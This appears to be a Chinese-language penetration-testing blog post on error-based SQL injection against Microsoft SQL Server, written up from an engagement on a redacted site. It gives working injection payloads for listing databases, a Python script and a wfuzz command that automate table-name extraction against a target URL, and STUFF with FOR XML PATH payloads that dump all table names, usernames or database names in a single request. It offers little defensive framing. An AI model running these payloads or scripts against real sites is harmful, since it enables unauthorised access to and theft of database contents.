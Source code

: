 ```yaml
---
title: SQL Server注入 - STUFF与XML Path
layout: post
date: '2020-03-02'
permalink: "/archivers/2020-03-02/3"
description: 某次**，发现一处SQL Server注入点
---
```


## 背景

某次XX，发现一处SQL Server注入点

## 报错注入

SQL Server注入，一般也是先找库、再找表、再查字段、最终查询数据。

## 查库

1.查第一个：

```
id=1 and (SELECT top 1 Name FROM Master..SysDatabases)>0 --
```

2.NOT IN

```
id=1 and (SELECT top 1 Name FROM Master..SysDatabases where name not in ('master'))>0 --
```

其中，NOT IN的集合会不断增加，最终无法查出其他结果，那么这个集合就是所有的数据库名称。

## 查表

在这一步，我们就可以自动化实现了：

```python
import requests
import re

table_list = ['']

def get_sqlserver_table(table_list, table_num):
    for num in range(0,table_num):
        # print("','".join(table_list))
        sql_str = "and (select top 1 name from [xxxx].sys.all_objects where type='U' AND is_ms_shipped=0 and name not in ('{}'))>0".format("','".join(table_list))
        url = "http://www.xxxxx.cn/x.aspx?cid=1' {} AND 'aNmV'='aNmV".format(sql_str)
        r = requests.get(url, headers = {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.87 Safari/537.36'})
        res = re.search(r'\'(.*)\'', r.content.decode('utf-8'),  re.M|re.I)
        table_name = str(res.group(1))
        table_list.append(table_name)
        print("[{}] - TableName: {}".format(str(r.status_code), table_name))
if __name__ == "__main__":
    get_sqlserver_table(table_list, 16)
 ```

当取得第16个的时候，还是没有出现用户表、管理员表等，而且网站抛出了错误，无法继续取，突然没有其他办法了。

![2020-03-01-11-34-21](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/d60590ed04ec4d3da6e917429c7cc4d4.png)


先来分析一下语句：

```
cid =1 and (select top 1 name from [数据库名称].sys.all_objects where type='U' AND is_ms_shipped=0 and name not in (''))>0 AND 'aNmV'='aNmV
```

这是第一次请求的Payload，集合这里我写个空，不管怎样，集合都可以取得第一个表名。

第二个、第三个表名都会向集合增加，以此类推，通过SQLMAP判断，有146个表。



到第16个因为原始语句有干扰，不能继续取得后续的表名，但我不想放弃。

于是，又想到通过FUZZ的方式：

![2020-03-01-11-34-39](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/835850cccf61c6d461e1fa9e4bede6bc.png)

```
wfuzz -c -z file,/usr/shar/sqlmap/data/common-table.txt --sc 500 "http://www.xxx/xxx?cid=1%27%20and%20%20(select%20top%201%20COLUMN_NAME%20from%20xxx.information_schema.columns%20where%20TABLE_NAME=%27Hsoft_FUZZ%27%20and%20COLUMN_NAME%20not%20in(%27x%27))%3E0%20and%20%27s%27=%27s"
```

- `Hsoft_` 为前缀
- sc 500 只匹配错误页面（报错注入）

但是字典貌似不够强大，我就去查询SQL Server有没有类似将多行数据合并为一行的办法。


我知道MySQL中有GroupConcat类似的函数，但SQL Server没有，这点很遗憾~ 没有继续使用SQL Map是因为SQLMAP根本无法取得任何一个表名，期间我也分析了SQL MAP的Payload，请求实在是多，就放弃了这条线。


## STUFF与XML Path

STUFF字符串函数是将字符串插入到另一个字符串中。它会删除开始位置第一个字符串中的指定长度的字符，然后将第二个字符串插入到开始位置的第一个字符串中，语法如下。

```
STUFF（<character_expression>，<开始>，<长度>，<character_expression>）
<character_expression>
```

参数是给定的字符串数据，可以是字符或二进制数据的常量，变量或列。`<start>`参数是一个整数值，指定开始删除和插入的位置，可以是BIGINT类型。如果`<开始>`或`<长度>`参数为负数，则返回NULL字符串。如果`<start>`参数比第一个`<character_expression>`长，则返回一个NULL字符串。 <length>参数可以是BIGINT类型，它是一个整数，指定要删除的字符数。如果<length>比第一个`<character_expression>`长，则删除发生到最后一个`<character_expression>`中的最后一个字符。


STUFF最常见的用途莫过于结合FOR XML PATH对返回JSON字符串的拼接。首先利用FOR XML PATH则返回XML格式的字符串，我们将FOR XML PATH添加到查询的末尾，此时允许我们将查询的结果作为XML元素输出，元素名称包含在PATH参数中。

如：

```
SELECT name FROM dbo.base_pay_type WHERE is_enabled = 1
```

类似的SQL可能会返回多行数据，因此可以通过STUFF与XML PATH集合使用：


- 将查询到的数据转换成行，以逗号隔开，以[]包裹

```

SELECT STUFF((SELECT  '[' + name + '],'  
FROM(SELECT name FROM dbo.base_pay_type WHERE is_enabled = 1) a  FOR  XML PATH('')  ), 1,0, '') AS Name 
```

![2020-03-01-11-35-00](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/7fadd9802ea0134308ad9c8e3e1fa7eb.png)

直接套用到注入场景：

```
SELECT STUFF((SELECT  '[' + name + '],'  FROM(SELECT name from 数据库名称.sys.all_objects where type='U' AND is_ms_shipped=0) a  FOR  XML PATH('')  ), 1,0, '')
```
在sql shell中直接执行即可返回所有表名：

![2020-03-01-11-35-15](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/f1db9589f0c703b6ff101490ab00b90e.png)

所有表名以`[表名],`分割。

通过这个办法，我们可以套用很多需要多次请求注入的需求，如：

- 取得某个表10个用户名

```
SELECT STUFF((SELECT  '[' + username + '],'  FROM(SELECT Top 10 username from 数据库名称.User ) a  FOR  XML PATH('')  ), 1,0, '')
```

- 取得所有数据库名

```
SELECT STUFF((SELECT  '[' + Name + '],'  FROM(SELECT  Name from Master..SysDatabases ) a  FOR  XML PATH('')  ), 1,0, '')
```

其他场景自行想象！
